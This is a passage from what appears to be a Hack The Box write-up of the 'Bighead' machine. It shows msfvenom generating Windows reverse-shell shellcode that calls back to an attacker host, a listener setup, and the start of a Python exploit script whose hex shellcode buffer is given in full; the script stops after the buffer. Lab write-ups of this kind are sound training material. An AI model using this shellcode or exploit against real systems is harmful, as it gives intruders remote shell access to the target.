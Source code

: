 Next, I'll need some shellcode to execute. I'll use msfvenom to generate it.

![](../HTB-pics/bighead/72.png)

I also set a listener to catch my shell.

![](../HTb-pics/bighead/73.png)

Here is the python code I used to perform this exploit.

```python
#!/usr/bin/python
import socket
import binascii
import re

host = '10.129.229.241' # IP of the target
port = 80 # Port open on the target
egg = 'valo' # string used as the 'egg'

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=42069 -b '\x00' -f python
buf =  ''
buf += 'be62962325dbc3d97424f45f2b'
buf += 'c9b15283c70431770e031598c1'
buf += 'd0254c871bd58de89230bc28c0'
buf += '31ef9882171c52c6839716cfa4'
buf += '109c298ba18d0a8a21cc5e6c1b'
buf += '1f936d5c425e3f3508cdaf3244'
buf += 'ce44084856b9d96b776c513257'
buf += '8fb64ede97db6ba82c2f072be4'
buf += '61e880c94d1bd80e69c4af6689'
buf += '79a8bdf3a53d25532de58165e2'
buf += '7042694ff60c6e4edb278adbda'
buf += 'e71a9ff823467b6072222a9d64'
buf += '8d933bef20c731b22c24784cad'
buf += '220b3f9feda7d793666e20d35c'
buf += 'd6be2a5f2797e80b778fd9331c'
buf += '4fe5e1b31f495a74cf290a1c05'
buf += 'a6753c266c1ed7dde72b22d3f9'
buf += '4330eba1c1bd0dc3f9eb867c63'
buf += 'b65c1c6c6c191ee683ded10fe9'
buf += 'cc86ffa4ae01ff12c6ce92f816'
buf += '988e5641cd61af07e3d81935fe'
buf += 'bd62fd257e6cfca83a4aee74c2'
buf += 'd65a299580348f4f63ee59232d'
buf += '661f0feef0205a981c9033dd23'
buf += '1dd4e95c434415b7c7745c956e'
buf += '1d394c3340babb707d3949097a'
```